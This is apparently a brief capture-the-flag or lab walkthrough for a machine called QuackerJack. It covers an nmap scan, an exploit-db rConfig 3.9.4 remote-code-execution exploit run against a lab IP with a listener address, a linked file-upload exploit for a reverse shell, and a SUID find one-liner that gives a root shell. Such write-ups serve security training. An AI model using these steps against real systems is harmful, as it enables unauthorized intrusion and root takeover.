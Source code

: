# QuackerJack

### Enumeration

```
...
8081/tcp open  ssl/http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-favicon: Unknown favicon MD5: 52D936993020A4A4BF686DB0EED64D5A
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=quackerjack/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=quackerjack/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-06-22T19:28:25
| Not valid after:  2021-06-22T19:28:25
| MD5:   ea49 5ac9 a64c f14d 0847 f4b8 2a3e 6ea0
|_SHA-1: 5e3b 3a09 9c75 6044 f1aa 168c 9592 8e56 e025 243f
|_ssl-date: TLS randomness does not represent time
...
```

There is a rConfig Version 3.9.4 on 8081.

**rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote Code Execution -**&#x20;

https://www.exploit-db.com/exploits/48261

```
python3 rconfig_root_RCE_unauth_final.py https://192.168.181.57:8081 192.168.49.181 443
[+] Adding a temporary admin user...
[+] Authenticating as ursjanvhgq...
Interrupted here. I could not work fully exploit.
```

### Initial Access

admin: ursjanvhgq

**Rconfig File Upload RCE Exploit -**&#x20;

https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff

With this exploit, we can get reverse shell.

### PrivEsc

Find executable has a SUID bit.

[https://gtfobins.github.io/gtfobins/find/#suid](https://gtfobins.github.io/gtfobins/find/#suid)

```
-rwsr-xr-x. 1 root root 195K Oct 30  2018 /usr/bin/find

$ find . -exec /bin/bash -p \; -quit
```
